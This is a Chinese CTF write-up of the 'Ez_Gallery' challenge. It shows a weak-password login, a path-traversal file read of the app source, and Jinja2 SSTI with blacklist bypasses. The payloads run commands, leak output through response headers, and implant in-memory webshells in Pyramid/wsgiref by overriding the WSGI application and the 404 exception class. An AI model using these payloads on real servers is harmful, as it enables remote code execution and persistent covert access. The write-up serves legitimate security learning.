# 从国城杯Ez_Gallery实现寻找WSGIRef内存马和Response响应头外带以及栈帧回显的尝试-先知社区

> **来源**: https://xz.aliyun.com/news/16094  
> **文章ID**: 16094

---

## 登陆后台

直接尝试弱密码

```
admin
123456
```

实现登陆后台功能

## 实现任意文件读取



file后接着具体的文件名 要考虑目录穿越问题  
一般后端这样写都是直接通过 `os.path.join` 直接拼接存在任意文件读取  
尝试直接读取当前程序的启动命令查看当前Web应用的绝对路径



直接读取 `app.py`

```
import os
from pyramid.config import Configurator
from pyramid.httpexceptions import HTTPFound
from pyramid.response import Response
from pyramid.session import SignedCookieSessionFactory
from wsgiref.simple_server import make_server
import re
import jinja2

class User:
    def __init__(self, username, password):
        self.username = username
        self.password = password

users = {"admin": User("admin", "123456")}

def root_view(request):
    return HTTPFound(location='/login')

def info_view(request):
    username = request.session.get('username')
    if username != 'admin':
        return Response("请先登录", status=403)
    file_name = request.params.get('file')
    if file_name:
        file_path = os.path.join('/app/static/details/', file_name)
        try:
            with open(file_path, 'r', encoding='utf-8') as f:
                return {'file_name': file_name, 'content': f.read(), 'file_base': os.path.splitext(file_name)[0]}
        except FileNotFoundError:
            return {'file_name': file_name, 'content': "文件未找到。", 'file_base': os.path.splitext(file_name)[0]}
    else:
        return {'file_name': None, 'content': "未提供文件名。", 'file_base': None}

def home_view(request):
    username = request.session.get('username')
    if username != 'admin':
        return Response("请先登录", status=403)
    detailtxt = os.listdir('/app/static/details/')
    picture_list = [i[:i.index('.')] for i in detailtxt]
    file_contents = {}
    for picture in picture_list:
        with open(f"/app/static/details/{picture}.txt", "r", encoding='utf-8') as f:
            file_contents[picture] = f.read(80)
    return {'picture_list': picture_list, 'file_contents': file_contents}

def login_view(request):
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')
        user_captcha = request.POST.get('captcha', '').upper()
        if user_captcha != captcha_store.get('captcha_text', ''):
            return Response("验证码错误，请重试。")
        user = users.get(username)
        if user and user.password == password:
            request.session['username'] = username
            return Response("登录成功！<a href='/home'>点击进入主页</a>")
        else:
            return Response("用户名或密码错误。")
    return {}

def shell_view(request):
    # username = request.session.get('username')
    # if username != 'admin':
    #     return Response("请先登录", status=403)
    expression = request.GET.get('shellcmd', '')
    blacklist_patterns = [r'.*length.*', r'.*count.*', r'.*[0-9].*', r'.*\..*', r'.*soft.*', r'.*%.*']
    if any(re.search(pattern, expression) for pattern in blacklist_patterns):
        return Response('wafwafwaf')
    try:
        result = jinja2.Environment(loader=jinja2.BaseLoader()).from_string(expression).render({"request": request})
        return Response('success' if result else 'error')
    except Exception as e:
        return Response('error')

def main():
    session_factory = SignedCookieSessionFactory('secret_key')
    with Configurator(session_factory=session_factory) as config:
        config.include('pyramid_chameleon')
        config.add_static_view(name='static', path='/app/static')
        config.set_default_permission('view')
        config.add_route('root', '/')
        config.add_route('captcha', '/captcha')
        config.add_route('home', '/home')
        config.add_route('info', '/info')
        config.add_route('login', '/login')
        config.add_route('shell', '/shell')
        config.add_view(root_view, route_name='root')
        config.add_view(home_view, route_name='home', renderer='home.pt', permission='view')
        config.add_view(info_view, route_name='info', renderer='details.pt', permission='view')
        config.add_view(login_view, route_name='login', renderer='login.pt')
        config.add_view(shell_view, route_name='shell', renderer='string', permission='view')
        config.scan()
    return config.make_wsgi_app()

if __name__ == "__main__":
    app = main()
    server = make_server('0.0.0.0', 6543, app)
    server.serve_forever()

```

发现存在`/shell`路由可以实现Jinja2模板渲染  
考察常见的SSTI注入  
经过测试发现 **环境不出网**不可以写文件

PS:实际上是出网可以通过python反弹shell 环境没有`curl`,`ping`命令判断有误呜呜

用户权限是 `nobody` tmp目录也做了权限限制  
导致我们写入回显命令的幻想破灭

这里就要考虑重新寻找**基于wsgi的内存马或者Response请求头外带**

## Response响应头外带

由于这里基本没有禁用常见的内置函数 这里用最常见的`lipsum`实现获取`modules`  
wsgiref 是 Python 标准库的一部分，提供了对 WSGI（Web Server Gateway Interface）的支持。WSGI 是一个 Web 服务器和 Web 应用程序或框架之间的接口标准，用于 Python Web 应用程序

本身就是基于`wsgiref.simple_server`实现服务 直接写入返回响应头即可

```
from http.server import BaseHTTPRequestHandler, HTTPServer
import sys
import urllib.parse
from wsgiref.handlers import SimpleHandler
from platform import python_implementation

__version__ = "0.2"
__all__ = ['WSGIServer', 'WSGIRequestHandler', 'demo_app', 'make_server']


server_version = "WSGIServer/" + __version__
sys_version = python_implementation() + "/" + sys.version.split()[0]
software_version = server_version + ' ' + sys_version


class ServerHandler(SimpleHandler):

    server_software = software_version

    def close(self):
        try:
            self.request_handler.log_request(
                self.status.split(' ',1)[0], self.bytes_sent
            )
        finally:
            SimpleHandler.close(self)

```

可以直接将结果写入到 `server_software` 在 `Server` 实现回显

## 写入Server

黑名单过滤

```
blacklist_patterns = [r'.*length.*', r'.*count.*', r'.*[0-9].*', r'.*\..*', r'.*soft.*', r'.*%.*']

```

这里过滤了`soft` 但是过滤直接拼接就是  
对于属性和方法的获取通过`[]`和`|attr()`过滤器代替

```
{{lipsum['__globals__']['__builtins__']['setattr']((((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['wsgiref']|attr('simple_server')|attr('ServerHandler'),'server_so''ftware',lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('/readflag')['read']())}}

```

直接让 `Server` 位回显结果 就是flag



## 写入http\_version

可以知道 类`ServerHandler`是基于`SimpleHandler`而`SimpleHandle`的父类就是`BaseHandler`



简单查看发现是在`send_preamble`实现响应头的写入

```
def send_preamble(self):
        """Transmit version/status/date/server, via self._write()"""
        if self.origin_server:
            if self.client_is_modern():
                self._write(('HTTP/%s %s\r\n' % (self.http_version,self.status)).encode('iso-8859-1'))
                if 'Date' not in self.headers:
                    self._write(
                        ('Date: %s\r\n' % format_date_time(time.time())).encode('iso-8859-1')
                    )
                if self.server_software and 'Server' not in self.headers:
                    self._write(('Server: %s\r\n' % self.server_software).encode('iso-8859-1'))
        else:
            self._write(('Status: %s\r\n' % self.status).encode('iso-8859-1'))

```



因此我们不仅可以控制`server_software`还可以控制`http_version`

```
{{lipsum['__globals__']['__builtins__']['setattr']((((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['wsgiref']|attr('handlers')|attr('BaseHandler'),'http_version',lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('/readflag')['read']())}}

```



我们实现了在`http_version`中回显结果

## WSGIRef内存马

本身exec/eval被放出来操作空间就非常大  
尝试拿到`exec`执行任意Python代码  
本地测试一下 取到`exec` 函数



就像flask内存马一样  
我们可以尝试寻找一些比如注册路由,请求前置/后置,错误页面报错带出等常规思路,经过简单的调试发现几种常见内存马

## 注册任意路由实现回显

本身发现其注册路由有两个阶段 和flask不同的是  
需要 `add_route`的同时添加`add_view`

```
config.add_route('x', '/x')
config.add_view(lambda context, request:__import__('os').popen('whoami').read(),route_name='x', renderer='string', permission='view')

```

发现其本质上是 通过 `WSGIServer`实现`application`应用的设置  
对



我们可以模仿这个功能实现我们的目的

```
class WSGIServer(HTTPServer):

    """BaseHTTPServer that implements the Python WSGI protocol"""

    application = None

    def server_bind(self):
        """Override server_bind to store the server name."""
        HTTPServer.server_bind(self)
        self.setup_environ()

    def setup_environ(self):
        # Set up base environment
        env = self.base_environ = {}
        env['SERVER_NAME'] = self.server_name
        env['GATEWAY_INTERFACE'] = 'CGI/1.1'
        env['SERVER_PORT'] = str(self.server_port)
        env['REMOTE_HOST']=''
        env['CONTENT_LENGTH']=''
        env['SCRIPT_NAME'] = ''

    def get_app(self):
        return self.application

    def set_app(self,application):
        self.application = application

```

其本质上就是通过对`wsgiref.simple_server.WSGIServer`设置 `application` 可以对`wsgiref.simple_server.WSGIServer`具体类实现  
`application`的覆盖 从而实现**路由的覆盖**  
这里我们尝试注册 `/jerry`路由实现覆盖原先的路由表

```
{{(lipsum['__globals__']['__builtins__']['exec'])("config=Configurator()%0agetattr(config,'add_route')('jerry','/jerry')%0agetattr(config,'add_view')(lambda context, request:shell,route_name='jerry',renderer='string',permission='view')%0agetattr(config,'scan')()%0aapp = getattr(config,'make_wsgi_app')()%0aprint(WSGIServer)%0asetattr(WSGIServer,'application',app)",{"simple_server":(((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['wsgiref']['simple_server']['WSGIServer'],"shell":lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read'](),'WSGIServer':(((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['__main__']['server'],'Configurator':(((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['__main__']['Configurator']})}}

```

当我们重新访问shell路由时



会发现`shell`路由不存在 发现已经成功覆盖  
我们再次访问 `/jerry`时 发现路由已经被覆盖实现



我们可以实现注册任意路由实现回显效果

## 404 Not Found 内存马

可以发现`HTTPExceptiion`类实现了异常回显的`IExceptionResponse`接口



实际上的具体实现是 `pyramid` 模块中 `HTTPNotFound`类

```
class HTTPNotFound(HTTPClientError):
    """
    subclass of :class:`~HTTPClientError`

    This indicates that the server did not find anything matching the
    Request-URI.

    code: 404, title: Not Found

    Raise this exception within :term:`view` code to immediately
    return the :term:`Not Found View` to the invoking user.  Usually
    this is a basic ``404`` page, but the Not Found View can be
    customized as necessary.  See :ref:`changing_the_notfound_view`.

    This exception's constructor accepts a ``detail`` argument
    (the first argument), which should be a string.  The value of this
    string will be available as the ``message`` attribute of this exception,
    for availability to the :term:`Not Found View`.
    """

    code = 404
    title = 'Not Found'
    explanation = 'The resource could not be found.'

```

可以直接修改 `title` 和 `explanation` 作为两个回显位  
覆盖`title`为我们的命令执行结果

```
{{(lipsum['__globals__']['__builtins__']['exec'])("setattr(Not,'title',shell)",{"Not":(((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['pyramid']['httpexceptions']['HTTPNotFound'],"shell":lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']()})}}

```



`explanation`也是一样的原理

```
{{(lipsum['__globals__']['__builtins__']['exec'])("setattr(Not,'explanation',shell)",{"Not":(((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['pyramid']['httpexceptions']['HTTPNotFound'],"shell":lipsum['__globals__']['__builtins__']['__import__']('os')['popen']('whoami')['read']()})}}

```



### 动态传入命令

如果我们希望动态的传参命令可以通过取到 `pyramid.request.Request` 实现动态获取字符 最简单粗暴的方法我们可以直接截取字符  
不过这里过滤了数字但是关系不大  
直接通过布尔值相互加减得到  
`num=True+True+True+True+True+True`

```
{{(lipsum['__globals__']['__builtins__']['exec'])("num=True%2BTrue%2BTrue%2BTrue%2BTrue%2BTrue%0acmd=str(request)[-int(num):]%0af=popen(cmd)%0aresult=getattr(f,'read')()%0aprint(result)%0asetattr(Not,'explanation',result)",{"Not":(((lipsum|attr('__spec__'))|attr('__init__')|attr('__globals__'))['sys']|attr('modules'))['pyramid']['httpexceptions']['HTTPNotFound'],"popen":lipsum['__globals__']['__builtins__']['__import__']('os')['popen'],"request":request})}}

```

执行命令`whoami`是6位 就截取6位即可



直接触发404回显结果

